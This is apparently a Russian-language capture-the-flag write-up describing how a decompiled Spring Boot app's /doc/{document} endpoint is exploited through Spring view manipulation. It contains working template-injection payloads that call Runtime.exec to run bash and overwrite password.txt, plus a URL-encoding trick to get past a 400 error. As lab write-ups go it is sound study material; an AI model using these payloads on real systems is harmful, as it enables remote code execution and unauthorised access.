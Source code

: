 # Web 2
Декомпилим исходники сайта через Luyten, потому что исходники на джаве(.jar):\
![java.png](java.png "а вот и исходники")
Видим упоминание springframework, в том числе в MANIFEST.MF, это ам понадобится. В HelloController.class описана основная логика приложения, внимательно читаем его и понимаем, что чтобы получить флаг, нам нужно узнать/записать пароль в password.txt:\
![password.png](password.png "интересненько...") \
Видим ещё /doc/{document}, который скорее всего можно проэксплатировать. Ищем в яндексе "springframework Path Variable exploit" и натыкаемся на замечательный сайт:\
https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability \
На нём находим эксплоит для /doc: 
```
GET /doc/__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x HTTP/1.1
```
Гуглим как в джаве запускать что-то из шелла: \
https://stackoverflow.com/questions/13707519/running-a-bash-shell-script-in-java
Вместо touch пробуем перезаписать password.txt: 
```
/doc/__${T(java.lang.Runtime).getRuntime().exec(new String[]{"bash", "-c", "echo 4343 > password.txt"})}__::.x
```
и получаем 400: \
![400.png](400.png "400 :(")
Методом перебора понимаем, что проблема в [], поэтому кодируем их в юрл: 
```
192.168.12.13:8090/doc/__${T(java.lang.Runtime).getRuntime().exec(new String%5b%5d{"bash", "-c", "echo 4343 > password.txt"})}__::.x
```
Сработало:
![win1.png](win1.png "win! :)")
Логинимся и получаем флаг!!!!!!!! \
![win2.png](win2.png "win!!!!! ^-^")
